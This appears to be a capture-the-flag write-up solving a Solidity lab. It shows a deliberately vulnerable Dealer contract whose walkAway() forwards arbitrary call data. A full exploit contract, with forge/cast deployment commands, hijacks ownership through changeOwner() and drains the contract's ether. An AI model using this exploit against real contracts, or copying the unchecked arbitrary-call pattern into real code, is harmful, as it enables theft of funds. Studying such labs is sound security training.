 Here we have 2 source code, one is *Setup.sol* and another one is *Dealer.sol*, In order to make *Setup.sol::isSolved()* return true, we must make the balance of *Dealer Contract* become 0 and the *owner* is no longer *Setup Contract*.
&nbsp;  
&nbsp;  
```solidity
contract Setup{
    Dealer public dealer;

    constructor() payable{
        dealer = new Dealer();
        dealer.joinGame{value: 50 ether}();
    }

    function isSolved() public view returns(bool){
        return address(dealer).balance == 0 && dealer.owner() != address(this);
    }

}
```
&nbsp;  
Based on the initial setup, we know that the current owner is *Setup Contract* and it has 50 Ether. Let's take a tour of the *Dealer Contract* now,
&nbsp;  
&nbsp;  
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

contract Dealer{
    bool public readyToRig;
    address public owner;
    uint256 public rewardPool;
    mapping(address => uint256) public balanceOf;

    constructor() payable{
        owner = msg.sender;
    }

    function joinGame() public payable{
        require(msg.value >= 5 ether, "Must Deposit Minimum of 5 Ether!");
        balanceOf[msg.sender] += msg.value;
    }

    function bet(uint256 _amount) public{
        require(balanceOf[msg.sender] >= 5 ether, "Need 5 Ether to bet");
        require(_amount >= 2 ether, "Start with 2");
        rewardPool += balanceOf[owner];
        balanceOf[owner] = 0;
        rewardPool += _amount;
        balanceOf[msg.sender] -= _amount;
        readyToRig = true;
    }

    function startRiggedBet() public onlyOwner{
        require(readyToRig == true, "Pool is not filled!");
        balanceOf[owner] += rewardPool;
        rewardPool = 0;
        readyToRig = false;
    }

    function endWholeGame() public onlyOwner{
        uint256 toSend = balanceOf[owner];
        (bool sent, ) = owner.call{value: toSend}("");
        require(sent, "Ending Game Failed!");
    }

    function walkAway(address _to, bytes memory message) public {
        require(readyToRig == true, "You want to wal away empty handed?");
        uint256 leftAmount = balanceOf[msg.sender];
        balanceOf[msg.sender] -= leftAmount;
        (bool sent, ) = _to.call{value: leftAmount}(message);
        require(sent, "You can't run it seems.");
    }

    function changeOwner(address _newOwner) public payable{
        require(msg.sender == address(this), "Only Dealer can change owner");
        owner = _newOwner;
        balanceOf[owner] += msg.value;
    }

    modifier onlyOwner(){
        require(msg.sender == owner, "Only Owner can start bet!");
        _;
    }

    receive() external payable {
        if(msg.value == 5 ether){
            balanceOf[msg.sender] += msg.value;
        }else{
            rewardPool += msg.value;
        }
    }
}
```
&nbsp;  
We can see that it can receive ether with 2 functions, the *joinGame()* and *receive()*. The only difference is that when we use joinGame, it requires us to send at least 5 Ether, while the receive function has a logic: if the amount is exactly 5 Ether only, then it will be added to our balance; otherwise,  it will be added to the rewardPool. &nbsp;  
&nbsp;  
The *bet()* function allows us to put our money on the line, and while we have the freedom to choose how much money we want to spend, the *owner* seems to go all-in, kind of weird, right? Turns out, the next function *startRiggedBet()* will actually make the owner always win since it transferred all the rewardPool to the owner, and after that the owner could call *endWholeGame()* and just get all the money there. &nbsp;  
&nbsp;  
We as a player also have an option, but that is only available after we *bet()* some of our money. We can just *walkAway* with the money we have left and leave a message... Oh well, we can leave a message that is being handled by *call()*, and with that we can actually call *changeOwner()* and make ourselves the *owner*. This could happen because if we parse a bytes, that's actually a function call. What's a function call? In Ethereum, they call a function by giving a 4 bytes, or what they often call a function selector or signature, it's the first 4 bytes of *keccak256(functionName(args_type))*. &nbsp;  
&nbsp;  
So here is what we are going to do:  &nbsp;  
&nbsp;  
1. We *joinGame()* with 5 Ether
2. We *bet()* 3 Ether
3. We *walkAway()*, the current rewardPool is 53 Ether, but we transfer the money to *dealer* by providing his address, effectively giving it 2 Ether (our leftAmount) and parse a message containing the call of *changeOwner(address)* with the address pointing to our Exploit Contract.
4. The current owner will be our exploit contract; we can just *startRiggedBet()*, taking all the rewardPool
5. Transfer all money to our pocket by calling *endWholeGame()*.

&nbsp;  
The message that we are going to provide will consist of the name of the *changeOwner()* selector and the address of our Exploit contract; it is constructed like this &nbsp;  
&nbsp;  
```test
// Default Construction
[4 bytes - selector] [32 bytes - Data/Args ] [can add more 32 bytes (SLOT) if needed]

// changeOwner(address) - newOwner address
0xa6f9dae1 000000000000000000000000 00648ca25a2e54b636c22cd5e1df72da69570aa2
|selector| |   padding 12 bytes   | |     newOwner Address - 20 bytes      |
|4 bytes | |-------------------------32 bytes / 1 SLOT---------------------|
```
&nbsp;  
How do we get *0xa6f9dae1*? Well, we can use the built-in function *abi.encodeWithSignature(funcName(args-type), args-value)*, in our contract to parse this. Okay now that we understand what we need to do and how to do it, here is the full exploit to finally solve the lab. &nbsp;  
&nbsp;  
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

import "./Setup.sol";
import "./Dealer.sol";

contract Exploit{
    Dealer public dealer;
    Setup public setup;

    constructor(address _setup) payable{
        setup = Setup(_setup);
        dealer = Dealer(setup.dealer());
    } 

    function exploit() public{
        dealer.joinGame{value: 5 ether}();
        dealer.bet(3 ether);
        dealer.walkAway(address(dealer), abi.encodeWithSignature("changeOwner(address)",address(this)));
        dealer.startRiggedBet();
        dealer.endWholeGame();
    }

    receive() external payable { }

}
```
&nbsp;  
We just need to deploy the solver and give it 5 Ether to execute the *joinGame*, here is how you can do it. &nbsp;  
&nbsp;  
```bash
// deploy the contract
forge create src/silent-dealer/$EXPLOIT_SOL:$EXPLOIT_NAME -r $RPC --private-key $PK --constructor-args $SETUP_ADDR --value 5ether

// Launch the Exploit
cast send -r $RPC --private-key $PK $EXPLOIT_ADDR "exploit()"
```
&nbsp;  
Now you should've solved the lab!